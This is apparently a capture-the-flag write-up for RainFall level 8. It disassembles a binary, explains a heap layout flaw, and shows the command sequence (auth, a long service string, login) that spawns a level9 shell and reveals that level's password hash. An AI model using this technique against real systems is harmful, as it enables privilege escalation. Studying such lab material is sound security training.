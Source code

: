 # **Level8**

In this level, I encountered a binary file that functions as a simple command interpreter. Upon startup, it displays two pointers, both initially set to **`(nil)`**.

```python
level8@RainFall:~$ ./level8
(nil), (nil)
dsssss
(nil), (nil)
```

## **Binary Analysis**

Using GDB, I analyzed the binary and discovered that the `main` function allocates memory for two global variables: **`auth`** and **`service`**. The variable **`auth`** stores the provided password, while **`service`** stores additional data. The **`reset`** function frees the memory allocated to **`auth`**, resetting its value to **`(nil)`**.

```nasm
(gdb) disas main
Dump of assembler code for function main:
	 0x08048574 <+16>:	nop
	 0x08048575 <+17>:	mov    0x8049ab0,%ecx ; Global variable service
	 0x0804857b <+23>:	mov    0x8049aac,%edx ; Global variables auth
	  
	 0x08048591 <+45>:	call   0x8048410 <printf@plt> ;printf("%p, %p\n", auth, service);
	 [...]
   0x080485c1 <+93>:	mov    $0x8048819,%eax ;auth 
   0x080485c6 <+98>:	mov    $0x5,%ecx
   0x080485cb <+103>:	mov    %edx,%esi
   0x080485cd <+105>:	mov    %eax,%edi
   0x080485cf <+107>:	repz cmpsb %es:(%edi),%ds:(%esi)
	 [...]
   0x080485e4 <+128>:	movl   $0x4,(%esp)
   0x080485eb <+135>:	call   0x8048470 <malloc@plt> ; auth = malloc(4);
   [...]
   0x08048631 <+205>:	mov    0x8049aac,%eax
   0x08048636 <+210>:	mov    %edx,0x4(%esp)
   0x0804863a <+214>:	mov    %eax,(%esp)
   0x0804863d <+217>:	call   0x8048460 <strcpy@plt> ;strcpy(auth, buffer + 5);
	 [...]
   0x08048648 <+228>:	mov    $0x804881f,%eax ; reset
   0x0804864d <+233>:	mov    $0x5,%ecx
   0x08048652 <+238>:	mov    %edx,%esi
   0x08048654 <+240>:	mov    %eax,%edi
   0x08048656 <+242>:	repz cmpsb %es:(%edi),%ds:(%esi)
   [...]
   0x0804866b <+263>:	mov    0x8049aac,%eax
   0x08048670 <+268>:	mov    %eax,(%esp)
   0x08048673 <+271>:	call   0x8048420 <free@plt> ;free(auth);
	 [...]
   0x0804867e <+282>:	mov    $0x8048825,%eax ;service
   0x08048683 <+287>:	mov    $0x6,%ecx
   0x08048688 <+292>:	mov    %edx,%esi
   0x0804868a <+294>:	mov    %eax,%edi
   0x0804868c <+296>:	repz cmpsb %es:(%edi),%ds:(%esi)
   [...]
   0x080486a1 <+317>:	lea    0x20(%esp),%eax
   0x080486a5 <+321>:	add    $0x7,%eax
   0x080486a8 <+324>:	mov    %eax,(%esp)
   0x080486ab <+327>:	call   0x8048430 <strdup@plt>;service = strdup(buffer + 7);
	 [...]
   0x080486bb <+343>:	mov    $0x804882d,%eax ; login
   0x080486c0 <+348>:	mov    $0x5,%ecx
   0x080486c5 <+353>:	mov    %edx,%esi
   0x080486c7 <+355>:	mov    %eax,%edi
   0x080486c9 <+357>:	repz cmpsb %es:(%edi),%ds:(%esi)
   
   0x080486e2 <+382>:	mov    0x8049aac,%eax ; auth
   0x080486e7 <+387>:	mov    0x20(%eax),%eax ; 32 bytes
   0x080486ea <+390>:	test   %eax,%eax
   0x080486ec <+392>:	je     0x80486ff <main+411>
   0x080486ee <+394>:	movl   $0x8048833,(%esp) ; /bin/sh
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
 
```

## **Vulnerability**

The program has a heap overflow vulnerability due to improper bounds checking when handling user input. Here's why:

1. **Global Variables as Pointers**
    - **`auth`** and **`service`** are global pointers that can be manipulated through commands.
2. **No Bounds Checking**
    - The program uses functions like **`strcpy`** without checking the length of the input, allowing potential overflow.
3. **Critical Memory Check**
    - The **`login`** command checks a specific offset within the **`auth`** memory. If this value is non-zero, it executes **`system("/bin/sh")`**.

## **Exploit**

**Step 1: Allocate Memory with `auth`**

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth AAAA
0x804a008, (nil)
```

- The **`auth`** command allocates memory and stores **`"AAAA"`** in it.
- **`auth`** now points to **`0x804a008`**.

**Step 2: Use `service` to Overflow**

```bash
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
```

- The **`service`** command uses **`strdup`** to allocate memory and copy our input.
- We provide a long string of **`A`**s to overwrite beyond the allocated memory.
- Due to lack of bounds checking, this overflows into adjacent memory, potentially overwriting critical data in **`auth`**.

**Step 3: Trigger Shell with `login`**

If the input matches "login", the program proceeds to:

```nasm
10x080486e2 <+382>: mov    0x8049aac,%eax         ; Load 'auth' pointer
20x080486e7 <+387>: mov    0x20(%eax),%eax        ; Load value at offset 0x20
30x080486ea <+390>: test   %eax,%eax
40x080486ec <+392>: je     0x80486ff <main+411>   ; If zero, jump
50x080486ee <+394>: movl   $0x8048833,(%esp)      ; Load "/bin/sh"
60x080486f5 <+401>: call   0x8048480 <system@plt> ; Execute shell
```

- The program checks if the value at **`auth[32]`** is non-zero.
- If it is non-zero, it calls **`system("/bin/sh")`** to spawn a shell.

```bash
login
$ whoami
level9
```

- The **`login`** command checks a value at a specific offset in **`auth`**'s memory.
- Our overflow has altered this value, causing the condition to be met.
- The program executes **`system("/bin/sh")`**, giving us a shell with **`level9`** privileges.

Result:

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth AAAA
0x804a008, (nil)
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## **Flag**

```c
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```